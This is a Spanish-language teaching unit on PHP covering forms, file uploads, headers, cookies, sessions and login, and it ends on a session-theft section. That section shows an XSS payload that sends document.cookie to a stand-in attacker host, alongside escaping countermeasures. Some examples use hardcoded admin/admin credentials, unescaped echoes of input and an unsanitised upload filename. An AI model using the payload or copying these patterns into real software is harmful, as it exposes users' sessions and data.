

# Programación Web

??? abstract "Duración y criterios de evaluación"

    Duración estimada: 12 sesiones

    <hr />

    | Resultado de aprendizaje  | Criterios de evaluación   |
    | ------                    | -----                     |
    | 4. Desarrolla aplicaciones Web embebidas en lenguajes de marcas analizando e incorporando funcionalidades según especificaciones.     |  a) Se han identificado los mecanismos disponibles para el mantenimiento de la información que concierne a un cliente web concreto y se han señalado sus ventajas.<br /> b) Se han utilizado sesiones para mantener el estado de las aplicaciones Web. <br /> c) Se han utilizado *cookies* para almacenar información en el cliente Web y para recuperar su contenido. <br /> d) Se han identificado y caracterizado los mecanismos disponibles para la autentificación de usuarios. <br /> e) Se han escrito aplicaciones que integren mecanismos de autentificación de usuarios. <br /> f) Se han realizado adaptaciones a aplicaciones Web existentes como gestores de contenidos u otras. <br /> g) Se han utilizado herramientas y entornos para facilitar la programación, prueba y depuración del código. |

## 4.1 Variables de servidor

PHP almacena la información del servidor y de las peticiones HTTP en seis arrays globales:

* `$_ENV`: información sobre las variables de entorno
* `$_GET`: parámetros enviados en la petición GET
* `$_POST`: parámetros enviados en el envio POST
* `$_COOKIE`: contiene las cookies de la petición, las claves del array son los nombres de las *cookies*
* `$_SERVER`: información sobre el servidor
* `$_FILES`: información sobre los ficheros cargados via upload


!!! info "URL y URI"
    Antes de continuar es necesario aclarar las diferencias entre URL y URI. La [URL](https://developer.mozilla.org/es/docs/Learn/Common_questions/Web_mechanics/What_is_a_URL) (Uniform Resource Locator) indica la localización donde se encuentran los recursos, mientras que la [URI](https://developer.mozilla.org/es/docs/Glossary/URI) (Uniform Resource Identifier) identifica a un recurso en sí.
    <figure style="align: center;">
        
        <figcaption>Diferencias entre URL y URI</figcaption>
    </figure>

Si nos centramos en el array `$_SERVER` podemos consultar las siguientes propiedades:

* `PHP_SELF`: nombre del script ejecutado, relativo al document root (p.ej: `/tienda/carrito.php`)
* `SERVER_SOFTWARE`: (p.ej: Apache)
* `SERVER_NAME`: dominio, alias DNS (p.ej: `www.elche.es`)
* `REQUEST_METHOD`: GET
* `REQUEST_URI`: URI, sin el dominio
* `QUERY_STRING`: todo lo que va después de `?` en la URL (p.ej: `heroe=Batman&nombre=Bruce`)

Más información en <https://www.php.net/manual/es/reserved.variables.server.php>

``` php
<?php
echo $_SERVER["PHP_SELF"]."<br>"; // /u4/401server.php
echo $_SERVER["SERVER_SOFTWARE"]."<br>"; // Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
echo $_SERVER["SERVER_NAME"]."<br>"; // localhost

echo $_SERVER["REQUEST_METHOD"]."<br>"; // GET
echo $_SERVER["REQUEST_URI"]."<br>"; // /u4/401server.php?heroe=Batman
echo $_SERVER["QUERY_STRING"]."<br>"; // heroe=Batman
```

Otras propiedades relacionadas:

* `PATH_INFO`: ruta extra tras la petición. Si la URL es `http://www.php.com/php/pathInfo.php/algo/cosa?foo=bar`, entonces `$_SERVER['PATH_INFO']` será `/algo/cosa`.
* `REMOTE_HOST`: hostname que hizo la petición
* `REMOTE_ADDR`: IP del cliente
* `AUTH_TYPE`: tipo de autenticación (p.ej: Basic)
* `REMOTE_USER`: nombre del usuario autenticado

Apache crea una clave para cada cabecera HTTP, en mayúsculas y sustituyendo los guiones por subrayados:

* `HTTP_USER_AGENT`: agente (navegador)
* `HTTP_REFERER`: página desde la que se hizo la petición

``` php
<?php
echo $_SERVER["HTTP_USER_AGENT"]."<br>"; // Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
```

??? tip "Crear función propia dd"

    En Laravel es bastante común utilizar la función **dd** --dump and die-- que muestra información de la variable pasada y corta la ejecución del script actual. Muy útil para realizar depuración y pruebas. 

    Una implementación propia de la función sería la siguiente:

    ```php
    <?php
    function dd($value) {
        echo "<pre>";
        var_dump($value);
        echo "</pre>";
        die();
    }

    // llamada con la supervariable $_SERVER
    dd($_SERVER);
    ```

## 4.2 Formularios

A la hora de enviar un formulario, debemos tener claro cuando usar GET o POST:

* GET: los parámetros se pasan en la URL
    * <2048 caracteres, sólo ASCII
    * Permite almacenar en marcadores/historial la dirección completa
    * Idempotente: dos llamadas con los mismos datos siempre debe dar el mismo resultado
    * El navegador puede cachear las llamadas

* POST: parámetros ocultos (no encriptados)
    * Sin límite de datos, permite datos binarios
    * No se pueden cachear
    * No idempotente → actualizar la BBDD

Así pues, para recoger los datos accederemos al array dependiendo del método del formulario que nos ha invocado:

``` php
<?php
$par = $_GET["parametro"]
$par = $_POST["parametro"]
```

Para los siguientes apartados nos vamos a basar en el siguiente ejemplo:

``` html
<form action="formulario.php" method="POST">
    <p><label for="nombre">Nombre del alumno:</label>
        <input type="text" name="nombre" id="nombre" value="" />
    </p>

    <p><input type="checkbox" name="modulos[]" id="modulosDWES" value="DWES" />
        <label for="modulosDWES">Desarrollo web en entorno servidor</label>
    </p>

    <p><input type="checkbox" name="modulos[]" id="modulosDWEC" value="DWEC" />
        <label for="modulosDWEC">Desarrollo web en entorno cliente</label>
    </p>

    <input type="submit" value="Enviar" name="enviar" />
</form>
```

### Validación

Respecto a la validación, es conveniente siempre hacer **validación doble**:

* En el cliente mediante JS.
* En el servidor es conveniente volver a validar los datos antes de utilizarlos.

``` php
<?php
if (isset($_POST["parametro"])) {
    $par = $_POST["parametro"];
    // comprobar si $par tiene el formato adecuado, su valor, etc...
}
```

!!! info "Librerías de validación"
    Existen diversas librerías que facilitan la validación de los formularios, como son [respect/validation](https://respect-validation.readthedocs.io/en/latest/) o [particle/validator](http://validator.particle-php.com/en/latest/).

    Cuando estudiemos Laravel profundizaremos en la validación de forma declarativa.

    Mientras, recuerda que tienes funciones como *gettype* que devuelve el tipo de dato y otras como *is_int*, *is_float*, *is_string*, *is_array*, *is_object*, que devuelven un booleano a partir del tipo recibido.

### Parámetro multivalor

Existen elementos HTML que envían varios valores:

* `select multiple`
* `checkbox`

Para recoger los datos, el nombre del elemento debe ser un array. Esto también funciona con otro tipo de inputs, como los de texto, para recoger así todos los valores en un mismo array.

``` html
<select name="lenguajes[]" multiple="true">
    <option value="c">C</option>
    <option value="java">Java</option>
    <option value="php">PHP</option>
    <option value="python">Python</option>
</select>

<input type="checkbox" name="lenguajes[]" value="c" /> C<br />
<input type="checkbox" name="lenguajes[]" value="java" /> Java<br />
<input type="checkbox" name="lenguajes[]" value="php" /> Php<br />
<input type="checkbox" name="lenguajes[]" value="python" /> Python<br />
```

De manera que luego al recoger los datos:

``` php
<?php
$lenguajes = $_POST["lenguajes"];

foreach ($lenguajes as $lenguaje) {
    echo "$lenguaje <br />";
}
```

### Volver a rellenar un formulario

Si no pasa la validación y el usuario tiene que volver a rellenar el formulario, lo ideal es mantener los campos correctos con la información que rellenó. Esta técnica recibe el nombre de *sticky form*: un formulario que recuerda sus valores. Para ello, hemos de rellenar los atributos `value` de los elementos HTML con la información que contenían:

``` html+php
<?php
if (!empty($_POST['modulos']) && !empty($_POST['nombre'])) {
  // Aquí se incluye el código a ejecutar cuando los datos son correctos
} else {
  // Generamos el formulario
  $nombre = $_POST['nombre'] ?? "";
  $modulos = $_POST['modulos'] ?? [];
  ?>
  <form action="<?php echo $_SERVER['PHP_SELF'];?>" method="POST">
   <p><label for="nombre">Nombre del alumno:</label>
    <input type="text" name="nombre" id="nombre" value="<?= $nombre ?>" /> 
   </p>
   <p><input type="checkbox" name="modulos[]" id="modulosDWES" value="DWES"
    <?php if(in_array("DWES",$modulos)) echo 'checked="checked"'; ?> />
    <label for="modulosDWES">Desarrollo web en entorno servidor</label>
   </p>
   <p><input type="checkbox" name="modulos[]" id="modulosDWEC" value="DWEC"
    <?php if(in_array("DWEC",$modulos)) echo 'checked="checked"'; ?> />
    <label for="modulosDWEC">Desarrollo web en entorno cliente</label>
   </p>
   <input type="submit" value="Enviar" name="enviar"/>
  </form>
<?php } ?>
```

### Subir archivos

Cuando subamos archivos a través de un formulario es imprescindible utilizar utilizar los atributos `method="POST"` y `enctype="multipart/form-data"`.

``` html
<form enctype="multipart/form-data" method="POST" action="<?php echo $_SERVER['PHP_SELF']; ?>">
    Archivo: <input name="archivoEnviado" type="file" />
    <br />
    <input type="submit" name="btnSubir" value="Subir" />
</form>
```

Configuración en `php.ini`

* `file_uploads`: on / off
* `upload_max_filesize`: 2M
* `upload_tmp_dir`: directorio temporal. No es necesario configurarlo, cogerá el predeterminado del sistema
* `post_max_size`: tamaño máximo de los datos POST. Debe ser mayor a upload_max_filesize.
* `max_file_uploads`: número máximo de archivos que se pueden cargar a la vez.
* `max_input_time`: tiempo máximo empleado en la carga (GET/POST y upload → normalmente se configura en 60)
* `memory_limit`: 128M
* `max_execution_time`: tiempo de ejecución de un script (no tiene en cuenta el upload)


!!! info "Consultar las directivas del php.ini"
    Mediante la función [ini_get](https://www.php.net/manual/en/function.ini-get.php) podemos obtener el valor de cualquiera directiva del fichero `php.ini`. Por ejemplo, para consultar cuál es el directorio temporal al que se suben los archivos bastaría con: `echo ini_get("upload_tmp_dir");`.

    Y mediante [ini_set](https://www.php.net/manual/en/function.ini-set.php) podemos modificarlas para que tenga efecto su nuevo valor durante la ejecución del script actual. Después volverán al valor del fichero `php.ini`. Por ejemplo: `ini_set("upload_tmp_dir", "/uploads")`.

Una vez enviado el formulario, el proceso es siempre el mismo:

1. Comprobar que el archivo se ha subido correctamente.
2. Validar el archivo (tipo, tamaño...).
3. Crear ruta destino y nombre de archivo según nuestros intereses (utilizar id del usuario, código único...).
4. Mover el archivo del directorio temporal a la ruta de destino.

Para todo ello, podemos acceder a la información de los archivos subidos desde el array asociativo `$_FILES`. A cada archivo se accede por clave --> el nombre que se le dió en su atributo `name` del input. Y a su vez, para cada archivo se tiene:

* `name`: nombre
* `tmp_name`: ruta temporal
* `size`: tamaño en bytes
* `type`: [tipo MIME](https://developer.mozilla.org/es/docs/Web/HTTP/Guides/MIME_types/Common_types) 
* `error`: si hay error, contiene un mensaje. Si ok → 0.

Ejemplo de cómo procesar un archivo subido al sevidor:

``` php
<?php
if (isset($_POST['btnSubir'])) {

    // 1. Comprobar que el archivo se sube correctamente
    if (is_uploaded_file($_FILES['archivoEnviado']['tmp_name'])) {

        // 2. Realizar validación
        if($_FILES['archivoEnviado']['type'] == "image/jpeg"){

            // 3. Crear ruta destino con nombre, en este caso el original
            $destino = __DIR__ . "/uploads/" . $_FILES['archivoEnviado']['name']; 
            // __DIR__ es una constante mágica de PHP que devuelve la ruta absoluta del directorio donde se encuentra el archivo PHP que se está ejecutando
            // $destino = "./uploads/" . $_FILES['archivoEnviado']['name']; // Alternativa mediante ruta relativa
            
            // 4. Mover el archivo del directorio temporal al definitivo
            $tmp = $_FILES['archivoEnviado']['tmp_name'];
            move_uploaded_file($tmp, $destino);
        }
    }
}
```

!!! danger "Permisos en ruta destino"
    Muy importante, la carpeta destino de los archivos subidos ('uploads' en el ejemplo anterior), tiene que tener **permisos de escritura** para que el servidor web pueda mover los archivos a él.

!!! info "Obtener extensión del fichero"
    Mediante la función [pathinfo](https://www.php.net/manual/en/function.pathinfo.php) se obtiene un array con información del fichero. Entre ellos, la extensión del mismo.

## 4.3 Cabeceras de respuesta

Las cabeceras de respuesta (HTTP Response Headers) son información que el servidor envía al navegador (o cliente HTTP) antes del contenido de la página. Sirven para indicar metadatos sobre la respuesta: tipo de contenido, estado, cookies, control de caché, redirecciones, seguridad, etc.

En otras palabras, *permiten que el navegador sepa cómo interpretar y manejar la respuesta antes de mostrarla*.

| Función                | Descripción                                                   | Ejemplo                          |
| ---------------------- | ------------------------------------------------------------- | -------------------------------- |
| Tipo de contenido      | Indicar qué tipo de datos se envían                           | `Content-Type: text/html`        |
| Estado de la respuesta | Informar si la solicitud fue correcta o no                    | `HTTP/1.1 404 Not Found`         |
| Control de caché       | Indicar si el navegador o proxies pueden guardar la respuesta | `Cache-Control: no-cache`        |
| Cookies y sesiones     | Enviar cookies al cliente                                     | `Set-Cookie: PHPSESSID=...`      |
| Seguridad              | Protección frente a ataques web evitando que se carguen webs en un iframe                              | `X-Frame-Options: DENY`          |
| Redirección            | Enviar al cliente a otro recurso                              | `Location: https://example.com`  |
| CORS                   | Permitir o restringir acceso entre dominios                   | `Access-Control-Allow-Origin: *` |

Debe ser lo primero a devolver y lo haremos mediante la función `header(cadena)`. Mediante las cabeceras podemos configurar el tipo de contenido, tiempo de expiración, redireccionar el navegador, especificar errores HTTP, etc.

``` php
<?php header("Content-Type: text/plain"); ?>
<?php header("Location: http://www.ejemplo.com/inicio.html");
exit(); 
```

Se puede comprobar en las herramientas del desarrollador de los navegadores web mediante *Dev Tools --> Red --> clic en el nombre del archivo --> Encabezados*.

Es muy común configurar las cabeceras para evitar consultas a la caché o provocar su renovación:

``` php
<?php
// No permitir que el recurso se almacene en caché (indicando fecha pasada)
header("Cache-Control: no-cache, must-revalidate");
header("Expires: Sat, 26 Jul 1997 05:00:00 GMT");

// Permitir caché durante 1 hora (3600 segundos)
header("Cache-Control: max-age=3600, public");
header("Expires: " . gmdate("D, d M Y H:i:s", time() + 3600) . " GMT");
```

!!! tip "Recargar para probar caché"
    A la hora de realizar pruebas para ver si una página es cacheada o no, realiza la recarga directamente desde la barra de direcciones del navegador o pulsando un botón que te lleve a dicho recurso, en lugar de pulsar el botón de recarga del navegador, el cual va a solicitar siempre el recurso fuera de caché.

## 4.4 Gestión del estado

HTTP es un protocolo *stateless*, sin estado. Por ello, se simula el estado mediante el uso de cookies, tokens o la sesión. El estado es necesario para procesos tales como el carrito de la compra, operaciones asociadas a un usuario, etc...
El mecanismo de PHP para gestionar la sesión emplea cookies de forma interna.
*Las cookies se almacenan en el navegador del cliente, y la sesión en el servidor web*.

### Cookies

Las cookies son pequeños archivos de datos que un sitio web almacena en el navegador del usuario para recordar información, como inicios de sesión o preferencias. Estas cookies se crean generalmente mediante encabezados HTTP como `Set-Cookie` (desde el servidor) o a través de JavaScript con `document.cookie`. 

Entre otros, podemos usarlas para:

* Recordar los inicios de sesión.
* Almacenar valores temporales de usuario.
* Si un usuario está navegando por una lista paginada de artículos, ordenados de cierta manera, podemos almacenar el ajuste de la clasificación.

<figure style="align: center;">
    
    <figcaption>Comunicación con cookies</figcaption>
</figure>

Las cookies se almacenan en el array global `$_COOKIE`. Lo que coloquemos dentro del array, **se guardará en el cliente**. Hay que tener presente que el cliente puede no querer almacenarlas. 

Existe una limitación de 20 cookies por dominio y 300 en total en el navegador.

En PHP creamos una cookie, que se enviará con el resto de encabezados HTTP, mediante la función `setcookie`:

``` php
<?php
    setcookie(
        string $name,
        string $value = "",
        int $expires_or_options = 0,
        string $path = "",
        string $domain = "",
        bool $secure = false,
        bool $httponly = false
    ): bool

    // Firma alternativa a partir de PHP 7.3
    setcookie(string $name, string $value = "", array $options = []): bool
?>
```

#### Parámetros de setcookie

| Parámetro      | Tipo     | Descripción breve                                                                                          |
| -------------- | -------- | ---------------------------------------------------------------------------------------------------------- |
| **`name`**     | `string` | Nombre de la cookie. Es la clave que se usará para identificarla.                                          |
| **`value`**    | `string` | Valor que almacenará la cookie. Si se omite, la cookie se elimina.                                         |
| **`expires`**  | `int`    | Marca de tiempo UNIX con la fecha de expiración. Si no se indica, la cookie expira al cerrar el navegador. |
| **`path`**     | `string` | Ruta del servidor donde la cookie estará disponible. Por defecto, en todo el dominio (`/`).  Si el valor es '/admin/', la cookie estará únicamente disponible en el directorio /admin/ y en sus subdirectorios.                                                    |
| **`domain`**   | `string` | Dominio para el cual es válida la cookie (por ejemplo, `midominio.com`).                                  |
| **`secure`**   | `bool`   | Si es `true`, la cookie solo se enviará por conexiones HTTPS.                                              |
| **`httponly`** | `bool`   | Si es `true`, la cookie no será accesible desde JavaScript (`document.cookie`).                            |
| **`samesite`** | `string` | Controla cuándo se envía la cookie en peticiones entre sitios. Valores: `"Strict"`, `"Lax"` o `"None"`.    |
| **`options`**  | `array`  | Desde PHP 7.3+, se pueden pasar los parámetros anteriores en un solo array asociativo.                     |


Destacar que el nombre no puede contener espacios ni el caracter `;`. Respecto al contenido de la cookie, no puede superar los 4 KB y lo que **se guarda es una cadena de texto**, aunque mediante las funciones `json_encode` y `json_decode` podríamos guardar y recurar un array convirtiéndolo a JSON.

!!! danger "Uso de setcookie()"
    setcookie() define una cookie que será enviada junto con el resto de los encabezados HTTP. Al igual que con otros encabezados, las cookies deben ser enviadas antes de cualquier otra salida (esto es una restricción del protocolo HTTP, no de PHP): cualquier etiqueta <html> o <head> e incluso caracteres de espacio en blanco.

#### Ejemplos de uso de cookies

En los siguientes ejemplos se ilustra cómo mediante *cookies* se puede comprobar la cantidad de visitas diferentes que realiza un usuario a una página o cómo se almacena una carrito de productos:

=== "Accesos"

    Si existe la cookie con los accesos, la recuperamos, actualizamos y volvemos a almacenar.

    ``` php
    <?php
        $accesosPagina = 0;
        if(isset($_COOKIE['accesos'])) {
            $accesosPagina = $_COOKIE['accesos']; // recuperamos una cookie
        }
        setcookie('accesos', ++$accesosPagina); // le asignamos valor a la cookie (y si no existe, se crea)
    ```

=== "Accesos mejorado"

    Gracias al operador `??` se simplifica la comprobación de la cookie.

    ``` php
    <?php
        $accesosPagina = $_COOKIE['accesos'] ?? 0;
        setcookie('accesos', ++$accesosPagina); // le asignamos valor a la cookie (y si no existe, se crea)
    ```

=== "Almacenar array"

    Si queremos guardar un array asociativo (o no) en una cookie, tendremos que convertirlo previamente a JSON medainte `json_encode` y al recuperarlo, realizar el proceso inverso mediante `json_decode`.

    ``` php
    <?php
        if (isset($_COOKIE['carrito'])) {
            $carrito = json_decode($_COOKIE['carrito'], true); // true para que convierta a array asociativo en lugar de objeto Array
        }else {
            $carrito = [
                [
                    'id' => 34,
                    'cantidad' => 6,
                    'precio' => 19.95
                ],
                [
                    'id' => 35,
                    'cantidad' => 2,
                    'precio' => 9.95
                ],
                [
                    'id' => 36,
                    'cantidad' => 4,
                    'precio' => 39.45
                ],
            ];

            setcookie('carrito', json_encode($carrito), time() + 3600);
        }

        // Acceso
        echo "Primer producto del carrito: ". $carrito[0]['id'];
    ```

=== "Explorando todas las opciones"

    ``` php
    <?php
    // Crear una cookie válida durante 1 hora
    setcookie(
        "usuario",            // nombre
        "eladioblanco",       // valor
        time() + 3600,        // expiración (1 hora desde ahora)
        "/",                  // ruta en la que está disponible
        "midominio.com",      // dominio
        true,                 // secure (solo HTTPS)
        true                  // httponly (no accesible por JS)
    );

    // FIRMA a partir de PHP 7.3 (más legible y clara)
    setcookie(
        "usuario",
        "eladioblanco",
        [
            "expires"  => time() + 3600,
            "path"     => "/",
            "domain"   => "midominio.com",
            "secure"   => true,
            "httponly" => true,
            "samesite" => "Strict"
        ]
    );
    ```

!!! tip "Inspeccionando las cookies"
    Si queremos ver qué contienen las cookies que tenemos almacenadas en el navegador, se puede comprobar su valor en *Dev Tools --> Aplicación --> Almacenamiento*

El tiempo de vida de las cookies puede ser tan largo como el sitio web en el que residen. Ellas seguirán ahí, incluso si el navegador está cerrado o abierto.

!!! info "Tiempo en cookies"
    El tiempo después del cual la cookie expira se mide en segundos desde la época Unix (1 de enero de 1970). Mediante la función `time()` obtenemos los sengundos que han pasado desde entonces y sumándole la cantidad que nos interese, estableceremos el tiempo futuro que tardará la cookie en expirar.

    Ejemplo: time() + 60 * 60 * 24 --> La cookie expira en 1 día

Ejemplo de cookie que expira en 1 hora:

``` php
<?php
setcookie(nombre, valor, time() + 3600) // Caducan dentro de una hora
```

Para borrar una cookie se puede poner que expiren en el pasado:

``` php
<?php
setcookie(nombre, "", 1) // pasado
```

La alternativa en el cliente para almacenar información en el navegador es el objeto [LocalStorage](https://developer.mozilla.org/es/docs/Web/API/Window/localStorage).

### Sesión

La sesión añade la gestión del estado a HTTP, **almacenando la información en el servidor**.
Cada visitante tiene un ID de sesión único, el cual por defecto se almacena en una cookie denominada `PHPSESSID` que se crea una vez se inicia la sesión mediante `session_start()`.

Si el cliente no tiene las cookies activas, el ID se propaga en cada URL dentro del mismo dominio.
Cada sesión tiene asociado un almacén de datos mediante el array global `$_SESSION`, en el cual podemos almacenar y recuperar información.

La sesión comienza al ejecutar un script PHP. Se genera un nuevo ID y se cargan los datos del almacén:

<figure style="align: center;">
    
    <figcaption>Comunicación con sesión</figcaption>
</figure>

Las operaciones que podemos realizar con la sesión son:

``` php
<?php
    session_start(); // inicia o carga la sesión si ya existe
    echo session_id(); // devuelve el id de sesión (el que se envía como cookie al usuario)
    $_SESSION[clave] = valor; // asignación
    session_destroy(); // destruye la sesión
    unset($_SESSION[clave]); // borrado de un dato de la sesión
    session_unset(); // borra todas las variables de la sesión
```

!!! info "Destruir la sesión y sus variables"
    Al hacer `session_destroy()` se destruye toda la información asociada con la sesión actual, pero no destruye ninguna de las variables globales asociadas con la sesión, ni destruye la cookie de sesión. Para liberar todas las variables de la sesión, utilizar antes `session_unset()`.

#### Ejemplo guardar/recuperar en sesión

Vamos a ver mediante un ejemplo como podemos insertar en un página datos en la sesión para posteriormente en otra página acceder a esos datos. 

=== "sesion1.php"

    En el archivo `sesion1.php` iniciamos la sesión almacenando en ella algún valor.

    ``` php
        <?php
            session_start(); // inicializamos
            $_SESSION["ies"] = "IES Fernando III"; // asignación
            $instituto = $_SESSION["ies"]; // recuperación

            echo "Estamos en el $instituto";
        ?>
            <br />
            <a href="sesion2.php">Y luego</a>
    ```

=== "sesion2.php"

    En el archivo `sesion2.php` iniciamos la sesión recuperando algún valor guardado.

    ``` php
    <?php
        session_start();
        $instituto = $_SESSION["ies"]; // recuperación
        echo "Otra vez, en el $instituto";
    ```

#### Guardar arrays y objetos en la sesión

=== "Guardar en sesión"

    Tanto arrays como objetos, se guardan en la sesión igual que cualquier otra variable o dato.

    ``` php
    <?php
        session_start();
        require_once "User.php"; // Cargar clase

        // Crear objeto
        $usuario = new User("Juan", "juan@example.com");

        // Guardar en sesión el objeto usuario
        $_SESSION['usuario'] = $usuario;
        
        // Guardar en sesión un array asociativo
        $_SESSION['preferencias'] = [
            'tema' => 'oscuro',
            'fuente' => 12
        ];
    ```

=== "Recuperar de sesión"

    Recuperar un array es automático, igual que cualquier otra variable. En el caso de **recuperar un objeto, es necesario incluir antes la definición de su clase**.

    ```php hl_lines="3"
    <?php
        session_start();
        require_once "User.php"; // IMPORTANTE: Cargar clase antes de usarla

        if (isset($_SESSION['usuario']) && isset($_SESSION['preferencias'])) {
            $usuario = $_SESSION['usuario']; // Recuperar objeto
            $preferencias = $_SESSION['preferencias']; // // Recuperar array

            echo "<p class='". $preferencias['tema'] ."'>";
            echo $usuario->saludar() ." - email: " . $usuario->email;
            echo "</p>";
        } else {
            echo "No hay usuario o preferencias en la sesión.";
        }
    ```

!!! note "Configurando la sesión en `php.ini`"
    Las siguiente propiedades de `php.ini` permiten configurar algunos aspectos de la sesión:

    * `session.save_handler`: controlador que gestiona cómo se almacena (`files`).
    * `session.save_path`: ruta donde se almacenan los archivos con los datos (si tenemos un cluster, podríamos usar `/mnt/sessions` en todos los servidor de manera que apuntan a una carpeta compartida).
    * `session.name`: nombre de la sesión (`PHPSESSID`).
    * `session.auto_start`: Se puede hacer que se autocargue con cada script. Por defecto está deshabilitado.
    * `session.cookie_lifetime`: tiempo de vida por defecto.

    Más información en la [documentación oficial](https://www.php.net/manual/es/session.configuration.php).

## 4.5 Autentificación de usuarios

### Basada en sesiones

Una sesión establece una relación anónima con un usuario particular, de manera que podemos saber si es el mismo usuario entre dos peticiones distintas. Si preparamos un sistema de login, podremos saber quién utiliza nuestra aplicación.

Para ello, preparemos un sencillo sistema de autenticación:

* Mostrar el formulario login/password
* Comprobar los datos enviados
* Añadir el login a la sesión
* Comprobar el login en la sesión para realizar tareas específicas del usuario
* Eliminar el login de la sesión cuando el usuario la cierra.

Vamos a ver en código cada paso del proceso. Comenzamos con el archivo `index.php`:

``` html
<form action='login.php' method='post'>
  <fieldset>
    <legend>Login</legend>
    <div><span class='error'><?php echo $error; ?></span></div>
    <div class='fila'>
        <label for='usuario'>Usuario:</label><br />
        <input type='text' name='inputUsuario' id='usuario' maxlength="50" /><br />
    </div>
    <div class='fila'>
        <label for='password'>Contraseña:</label><br />
        <input type='password' name='inputPassword' id='password' maxlength="50" /><br />
    </div>
    <div class='fila'>
        <input type='submit' name='enviar' value='Enviar' />
    </div>
  </fieldset>
</form>
```

Al hacer *submit* nos lleva a `login.php`, el cual hace de controlador:

``` php
<?php
// Comprobamos si ya se ha enviado el formulario
if (isset($_POST['enviar'])) {
    $usuario = $_POST['inputUsuario'];
    $password = $_POST['inputPassword'];

    // validamos que recibimos ambos parámetros
    if (empty($usuario) || empty($password)) {
        $error = "Debes introducir un usuario y contraseña";
        include "index.php";
    } else {
        if ($usuario == "admin" && $password == "admin") {
            // almacenamos el usuario en la sesión
            session_start();
            $_SESSION['usuario'] = $usuario;
            // cargamos la página principal
            include "main.php";
        } else {
            // Si las credenciales no son válidas, se vuelven a pedir
            $error = "Usuario o contraseña no válidos!";
            include "index.php";
        }
    }
}
```

Dependiendo del usuario que se haya logueado, vamos a ir a una vista o a otra. Por ejemplo, en `main.php` tendríamos:

``` html+php
<?php
    // Recuperamos la información de la sesión
    if(!isset($_SESSION)) {
        session_start();
    }
    
    // Y comprobamos que el usuario se haya autentificado
    if (!isset($_SESSION['usuario'])) {
        // die, al igual que exit escribe su mensaje y ya no ejecuta nada más del script
        die("Error - debe <a href='index.php'>identificarse</a>.<br />");
    }
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Listado de productos</title>
</head>
<body>
    <h1>Bienvenido <?= $_SESSION['usuario'] ?></h1>
    <p>Pulse <a href="logout.php">aquí</a> para salir</p>
    <p>Volver al <a href="main.php">inicio</a></p>
    <h2>Listado de productos</h2>
    <ul>
        <li>Producto 1</li>
        <li>Producto 2</li>
        <li>Producto 3</li>
    </ul>
</body>
</html>
```

Finalmente, necesitamos la opción de cerrar la sesión que colocamos en `logout.php`:

``` php
<?php
// Recuperamos la información de la sesión
session_start();

// Y la destruimos
session_unset();
session_destroy();
header("Location: index.php");
?>
```

!!! warning "Autenticación en producción"
    En la actualidad la autenticación de usuario no se realiza gestionando la sesión direcamente, sino que se realiza mediante algún framekwork que abstrae todo el proceso o la integración de mecanismos de autenticación tipo *OAuth*, como  estudiaremos en la última unidad mediante *Laravel*.

### Otros mecanismos

| **Mecanismo de Autenticación**             | **Descripción**                                                                                                           | **Implementación**                                                                                         | **Seguridad**                                                   |
|--------------------------------------------|---------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
| **Sesiones**                               | Utiliza sesiones del servidor para almacenar la información del usuario después de iniciar sesión.                        | Usa `$_SESSION` para almacenar y verificar los datos del usuario.                                           | Configura cookies con `HttpOnly` y `Secure`.                   |
| **Cookies (Recordar sesión)**              | Permite al usuario permanecer conectado mediante un token almacenado en una cookie.                                       | Guarda un token hash en la cookie y verifica con la base de datos.                                          | Usa cookies seguras y renueva el token regularmente.           |
| **JWT (JSON Web Token)**                   | Utiliza tokens sin estado para autenticar usuarios, ideal para APIs REST.                                                 | Usa la biblioteca `firebase/php-jwt` para crear y validar tokens.                                           | Configura tiempos de expiración cortos y almacena tokens de refresco. |
| **OAuth (Redes sociales)**                 | Permite iniciar sesión con cuentas de Google, Facebook, GitHub, etc.                                                      | Usa bibliotecas como `PHPoAuthLib` o las APIs de las redes sociales.                                        | Valida siempre los datos recibidos del proveedor de OAuth.     |
| **Autenticación de dos factores (2FA)**    | Requiere una contraseña y un código adicional (enviado al correo o teléfono).                                             | Usa bibliotecas como `Google Authenticator` para generar códigos TOTP o podemos utilizar un aleatorio propio.                                      | Proporciona alta seguridad, aunque requiere más gestión.       |
| **Enlaces mágicos (Magic Links)**          | El usuario recibe un enlace de un solo uso por correo electrónico para iniciar sesión.                                    | Genera un token de un solo uso y envíalo por correo.                                                        | Expira rápidamente y se usa solo una vez.                      |
| **IP y User-Agent**                        | Autentica al usuario teniendo en cuenta la IP y el User-Agent del navegador.                                              | Usa `$_SERVER['REMOTE_ADDR']` y `$_SERVER['HTTP_USER_AGENT']`.                                              | Puede mejorar la seguridad, pero es menos confiable.           |
| **Biométrica**                             | Utiliza datos biométricos como huellas digitales o reconocimiento facial.                                                 | Se implementa generalmente en aplicaciones móviles, con PHP manejando los datos en el backend.              | Altamente seguro, pero depende del soporte del dispositivo.    |
| **CAPTCHA**                                | Protege el formulario de inicio de sesión de bots y ataques de fuerza bruta.                                              | Usa `Google reCAPTCHA` para validar la autenticidad del usuario.                                            | Buena medida adicional para formularios públicos.              |

### Robos de sesión

A continuación, se describen algunos métodos comunes utilizados para robar la sesión de un usuario, junto con las contramedidas necesarias para evitar estos ataques. 

#### 1. **Ataque de Cross-Site Scripting (XSS)**

Los ataques XSS aprovechan vulnerabilidades en el código para inyectar scripts maliciosos en páginas web visitadas por otros usuarios. Estos scripts pueden acceder a las cookies de sesión y enviarlas al atacante.

Ejemplo:

``` html
<input type="text" name="comentario" value="<script>fetch('https://attacker.com?cookie=' + document.cookie)</script>">
```

El código inyectado envía la cookie de sesión a una URL controlada por el atacante.

Contramedidas:

- Escapar y sanear entradas: Utiliza funciones como `htmlspecialchars()` en PHP para escapar caracteres especiales.

``` php
$comentario = htmlspecialchars($_POST['comentario'], ENT_QUOTES, 'UTF-8');
```

- Política de Seguridad de Contenidos (CSP): Implementa CSP para restringir el origen de scripts.

``` http
